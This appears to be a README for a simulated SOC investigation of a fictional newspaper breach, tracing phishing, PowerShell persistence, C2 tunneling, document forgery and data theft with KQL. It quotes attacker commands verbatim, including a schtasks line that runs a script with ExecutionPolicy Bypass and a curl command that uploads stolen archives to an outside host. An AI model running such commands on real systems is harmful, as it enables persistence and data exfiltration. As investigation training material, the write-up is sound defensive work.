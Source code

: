 # 🛡️ Valdorian Times Cybersecurity Breach: A Real-World SOC Investigation 🧠

🎥 **[Watch Full Investigation Video (kql.mp4)](https://drive.google.com/file/d/1b-IJ2acGuVvpFf12_vAxgXWQosKQmrU3/view?usp=sharing)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

---

## 🚀 Overview

🔍 **Attack Type**: Spear-phishing → Credential Abuse → Scheduled Tasks → Document Forgery → Data Exfiltration  
💻 **Tech Used**: Microsoft Sentinel, KQL, PowerShell, Passive DNS  
🎯 **Goal**: Find out how attackers used fake editorial documents and stolen intern accounts to inject misinformation and steal data.

---

## 📊 Phase 1: Initial Recon & Activity

### 🔍 Lois Lane
- IP Address: `10.10.0.22`
- Visited: **62 unique websites**

### 🌐 Passive DNS Search
- Domains containing `"hire"`: **6**
- `jobhire.org` resolved to: `191.7.248.112`

### 🧑 Mary Activity
- Unique Websites: **58**
- Authentication Attempts: **70**

---

## 📩 Phase 2: Suspicious Email to Clark Kent

- Email received from: **ronnie_mclovin@valdoriantimes.news**
- Subject: `URGENT: Final OpEd Draft Edits`
- Attachment: `OpEdFinal_to_print.docx`
- Sent on: `2024-01-31T11:11:12.000Z`
- Clark received **21 total emails**

Ronnie claims she never sent this email. Compromise suspected.

---

## 🕵️‍♀️ Phase 3: Sonia Gose - The Senior Editor's Lead

- IP: `10.10.0.3`
- Host: `UL0M-MACHINE`
- Received phishing email from: `newspaper_jobs@gmail.com`
- Timestamp: `2024-01-05T09:42:05.000Z`
- Link: `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`

### 📥 File Details
- Downloaded: `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
- SHA256: `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`

### 🪲 Malware Drop
- Dropped file: `hacktivist_manifesto.ps1`
- Created: `2024-01-05T10:24:32.000Z`

### 🛠 Scheduled Task
```bash
schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
```
### 🧪 Commands Executed by the Attacker

After establishing a tunnel using `plink.exe`, the attacker executed the following commands on the compromised machine to perform network discovery and system enumeration:

```bash
whoami           # Identify the currently logged-in user
ipconfig         # Display IP configuration details
arp -a           # View the ARP cache to identify nearby network devices
tasklist /svc    # List running tasks along with associated services
net view         # Discover shared resources on the local network
```
---

## 💻 Phase 4: Ronnie McLovin - Intern Breach

- **IP**: `10.10.0.19`  
- **Host**: `A37A-DESKTOP`  
- **Received Email From**: `valdorias_best_recruiter@gmail.com`  
- **Timestamp**: `2024-01-10T08:48:16.000Z`  
- **Link Domain**: `promotionrecruit.org`

### 📥 File Details

- **Downloaded File**: `Editorial_J0b_Openings_2024.docx`
- **Dropped Payload**: `hacktivist_manifesto.ps1`  
- **Drop Time**: `2024-01-10T08:55:51.000Z`

### 🧠 Attacker Action

- **plink.exe Executed**  
  - **C2 IP**: `168.57.191.100`  
  - **Credentials Used**:  
    - Username: `$had0w`  
    - Password: `thruthW!llS3tUfree`

- **Scheduled Task Created**  
  - **Time**: `2024-01-10T10:26:32.000Z`  

- **Recon Commands Executed**:
```bash
whoami
ipconfig
arp -a
tasklist /svc
net view
```
---
## 📄 Phase 5: fakestory.docx → OpEdFinal_to_print.docx

- **Domain**: `hire-recruit.org`  
- **Downloaded File**: `fakestory.docx`  
- **SHA256**: `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`  
- **Created On**: `2024-01-31T09:47:51.000Z`

### ➡️ Renamed & Moved
```plaintext
C:\Users\romclovin\Documents\OpEdFinal_to_print.docx
```
Timestamp: 2024-01-31T10:26:20.000Z

📧 Sent via Email to Clark Kent: 2024-01-31T11:11:12.000Z
⏱️ Elapsed Time: 44 minutes

---

## 📦 Phase 6: Data Theft & Exfiltration

### 🗃️ Files Created by the Attacker
- `DankMemes.7z`
- `MyStolenDataFromDocuments.7z`
- `MyStolenDataFromDesktop.7z`

🔐 **Password for All Archives**: `thruthW!llS3tUfree`

### 📤 Exfiltration Command
```bash
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php

```
🌐 Destination Domain: hirejob.com
---
## 📂 Repository Structure

```bash
Valdorian-Incident-Investigation/
├── README.md                      # 📝 Project summary and case details
├── kql.mp4                        # 🎥 Full investigation video
├── data/
│   ├── IOC_list.txt               # 📄 IPs, hashes, domains
│   └── investigation_logs.txt     # 🕵️ Full attack timeline & investigation steps
├── assets/
│   └── phishing_flowchart.png     # 🧭 (Optional) Visual representation of phishing chain
```
---
## 🧠 Learnings

✅ **KQL in action**: Real queries across web, DNS, authentication & process logs  
✅ **Tracking PowerShell scripts and scheduled tasks**  
✅ **Detecting spear-phishing and content spoofing**  
✅ **Building incident timelines from metadata**  
✅ **Reconstructing the attack chain from internal telemetry**
---------------------------------------------------------------------------------------------------------------
